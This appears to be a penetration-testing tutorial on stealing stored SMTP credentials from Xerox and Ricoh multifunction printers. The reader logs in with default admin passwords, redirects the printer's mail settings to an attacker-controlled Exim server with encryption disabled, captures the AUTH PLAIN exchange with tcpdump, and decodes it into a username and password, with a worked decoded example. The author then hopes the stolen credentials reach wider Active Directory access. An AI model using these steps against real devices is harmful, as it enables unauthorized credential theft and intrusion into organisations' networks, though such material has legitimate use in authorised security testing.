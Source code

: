 
# Configure Your Mail Server

Any SMTP server will work. In this article I'll use Exim running on Ubuntu
18.04. First, install Exim with `apt-get install exim4`. Reconfigure with
`dpkg-reconfigure exim4-config`. Answer defaults to all questions except
"Split configuration into small files" - answer Yes here.

Insert the following exim4 configuration snippet to a new file at
/etc/exim4/conf.d/auth/20_authplain:

```
# enable plaintext authentication via AUTH PLAIN
plain_server:
  driver = plaintext
  public_name = PLAIN
  server_condition = "${if crypteq{$auth3}{${extract{1}{:}{${lookup{$auth2}lsearch{CONFDIR/passwd}{$value}{*:*}}}}}{1}{0}}"
  server_set_id = $auth2
  server_prompts = :
```

Edit /etc/exim4/conf.d/main/01_exim4-config_listmacrosdefs. Comment out the
following:

```
# listen on all all interfaces?
#.ifdef MAIN_LOCAL_INTERFACES
#local_interfaces = MAIN_LOCAL_INTERFACES
#.endif
```

Insert the following exim4 configuration snippet to a new file at
/etc/exim4/conf.d/main/10_listen_everywhere

```
local_interfaces=0.0.0.0
```

Regenerate the master configuration file and restart exim:

```
yourmailserver% update-exim4.conf
yourmailserver% systemctl restart exim4
```

Verify that authentication is enabled:

```
yourmailserver% nc -nv 127.0.0.1 25
Connection to 127.0.0.1 25 port [tcp/*] succeeded!
220 yourmailserver.xelphene.net ESMTP Exim 4.90_1 Ubuntu Fri, 16 Aug 2019 05:49:23 -0400
EHLO example.com
250-yourmailserver.xelphene.net Hello localhost [127.0.0.1]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-AUTH PLAIN
250-CHUNKING
250-PRDR
250 HELP
```

If you see `250-AUTH PLAIN` after the EHLO, you're all set and ready to make
an MFD try to log in to your mail server.


# Configure a Xerox WorkCentre

First, browse to the device with your web browser and log in with the
default credentials, username "admin", password "1111". Go to the Properties
tab across the top and then Services -> E-mail -> Setup in the navigation
tree on the left.

Hit the "Edit..." link to the right of the SMTP setting. You'll end up
at the first page of SMTP settings. **Be sure to save everything you see
here**. After you're finished you'll need to revert these.

After you've saved the production settings somewhere, change the SMTP server
to the host name or IP address of your own mail server set up previously. 
Set it to use port 25.  Once you're finished, hit Save.

![Required Information Tab][required_info]

Next, head over to the Connection Encryption tab. **Skip the SMTP
Authentication tab. We don't want to lose what's already there.** Save the settings
on this tab to restore later. Set Connection Encryption to "No Encryption".
Hit Save.

![Connection Encryption Tab][connection_encryption]

You're ready have the device log in to your mail server. First, set up a
packet capture on your mail server to record the credentials:

```
yourmailserver% tcpdump -i ens160 -w pcap -n -s 1500 host 10.0.1.10 and port 25
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens160, link-type EN10MB (Ethernet), capture size 1500 bytes
```

The packet capture will be written to a file named `pcap`. `-s 1500` should
reflect the MTU of the interface you're capturing from. 1500 is typical for
Ethernet. `ip addr show` can be used to obtain the correct MTU.

With your packet capture set up, head back over to the WorkCentre's web interface. 
Proceed to the "Test Configuration" tab and do a test.  You can enter any
email address at all on the "To Address" field. You will probably get an
error message back.

Regardless, the WorkCentre tried to log in to our mail server with the
already-configured credentials and these should now be in our packet
capture.

Shut down the packet capture with ctrl-C:

```
yourmailserver% tcpdump -i ens160 -w pcap -n -s 1500 host 10.0.1.10 and port 25
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens160, link-type EN10MB (Ethernet), capture size 1500 bytes
^C0 packets captured
0 packets received by filter
0 packets dropped by kernel
```

Use `strings` to get non-binary content from the packet capture file. We
should be able to see the complete SMTP transaction:

```
yourmailserver% strings pcap
220 yourmailserver.xelphene.net ESMTP Exim 4.90_1 Ubuntu Thu, 15 Aug 2019 01:54:07 -0400
EHLO salesprinter.ad.xelphene.net
250-yourmailserver.xelphene.net Hello salesprinter.ad.xelphene.net [10.0.1.10]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-AUTH PLAIN
250-CHUNKING
250-PRDR
250 HELP
AUTH PLAIN
334 
AHNhbGVzc2NhbmVyMgBtZmZ4OTg3IQ==
535 Incorrect authentication data
```

The line between `334` and `535 Incorrect authentication data` is what we're
looking for.  That's the base64-encoded credentials.  The username and
password are separated by a null.  Decode them with any base64 decoder and
parse by the nulls:

```
yourmailserver% base64 -d - | tr '\0' '\n'
AHNhbGVzc2NhbmVyMgBtZmZ4OTg3IQ==
^D

salesscaner2
mffx987!
yourmailserver% 
```

Voila - you now have some hopefully useful credentials.

Don't forget to clean up: back on the WorkCentre, restore the original
settings you saved at the Required Information tab and the Connection
Encryption tab.  Remember to hit Save after each tab.

With a little luck those are AD credentials and with a little more luck
they have access to more than just an SMTP relay ;).

[emailsetup]: emailsetup.png "E-mail Setup"
[required_info]: required_info.png "Required Information"
[connection_encryption]: connection_encryption.png "Connection Encryption"

# Configuring a Ricoh MP 306Z

The default administrator credentials are username "admin" with a blank
password.

After logging in and arriving at the home page, go to Device Management ->
Configuration.  SMTP settings can be found there at Device Settings ->
Email.

In the SMTP section, configure your mail server's hostname/IP address, port
25, and set SMTP Auth Encryption to Inactive. Be sure to save prior
settings.

For the life of me, I couldn't figure out how to make these things simply
send a test message on demand. You can set the device up to send
various notifications. From the Configuration page, hit Device Settings ->
Auto Email Notification. Add any email address to a Group in the "Groups to
Notify" section. In the "Select Groups/Items to Notify" check the box for as
many notifications as possible.

There's a notification for "Device Access Violation", but strangely this
doesn't do anything for failed adminstrative logins. As far as I can tell,
one must wait for one of these events to occur naturally.

If the device has any scanned documents available on it, you can ask it to
send one immediately. From the Home page, go to Print Job/Stored File ->
Document Server and look around.

